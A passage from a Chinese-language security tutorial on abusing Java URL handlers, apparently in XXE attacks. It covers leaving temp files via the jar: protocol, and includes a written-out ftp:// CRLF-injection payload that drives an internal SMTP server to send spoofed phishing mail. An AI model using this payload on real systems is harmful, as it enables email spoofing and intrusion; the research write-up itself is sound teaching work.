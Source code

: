这个服务器的目的就是接受客户端的请求，然后向客户端发送一个我们运行时就传入的参数指定的文件，但是还没完，实际上我在这里加了一个 sleep(30)，这个的目的我后面再说

既然是文件上传，那我们又要回到 jar 协议解析文件的过程中了

> **jar 协议处理文件的过程：**
>
> (1) 下载 jar/zip 文件到临时文件中
> (2) 提取出我们指定的文件
> (3) 删除临时文件

那我们怎么找到这个临时的文件夹呢？不用想，肯定是通过报错的形式展现，如果我们请求的

```
jar:http://localhost:9999/jar.zip!/1.php
```

1.php 在这个 jar.zip 中没有的话，java 解析器就会报错，说在这个临时文件中找不到这个文件

**如下图：**

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20181120002649-eaa1b2aa-ec17-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20181120002649-eaa1b2aa-ec17-1.png)

既然找到了临时文件的路径，我们就要考虑怎么使用这个文件了（或者说怎么让这个文件能更长时间的停留在我们的系统之中，我想到的方式就是sleep()）但是还有一个问题，因为我们要利用的时候肯定是在文件没有完全传输成果的时候，因此为了文件的完整性，我考虑在传输前就使用 hex 编辑器在文件末尾添加垃圾字符，这样就能完美的解决这个问题

**下面是我的实验录屏：**

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20181120002650-eae69596-ec17-1.gif)](https://xzfile.aliyuncs.com/media/upload/picture/20181120002650-eae69596-ec17-1.gif)

实验就到这一步了，怎么利用就看各位大佬的了（坏笑）

我后来在LCTF 2018 出了这样一个 CTF 题目，详细的 wp 可以看我的[这篇文章](http://www.k0rz3n.com/2018/11/19/LCTF 2018 T4lk 1s ch34p,sh0w m3 the sh31l 详细分析/)

### **实验七：钓鱼：**

如果内网有一台易受攻击的 SMTP 服务器，我们就能利用 ftp:// 协议结合 CRLF 注入向其发送任意命令，也就是可以指定其发送任意邮件给任意人，这样就伪造了信息源，造成钓鱼（一下实例来自fb 的一篇文章 ）

Java支持在sun.net.ftp.impl.FtpClient中的ftp URI。因此，我们可以指定用户名和密码，例如ftp://user:password@host:port/test.txt，FTP客户端将在连接中发送相应的USER命令。

但是如果我们将%0D%0A (CRLF)添加到URL的user部分的任意位置，我们就可以终止USER命令并向FTP会话中注入一个新的命令，即允许我们向25端口发送任意的SMTP命令：

**示例代码：**

```
ftp://a%0D%0A
EHLO%20a%0D%0A
MAIL%20FROM%3A%3Csupport%40VULNERABLESYSTEM.com%3E%0D%0A
RCPT%20TO%3A%3Cvictim%40gmail.com%3E%0D%0A
DATA%0D%0A
From%3A%20support%40VULNERABLESYSTEM.com%0A
To%3A%20victim%40gmail.com%0A
Subject%3A%20test%0A
%0A
test!%0A
%0D%0A
.%0D%0A
QUIT%0D%0A
:a@VULNERABLESYSTEM.com:25
```
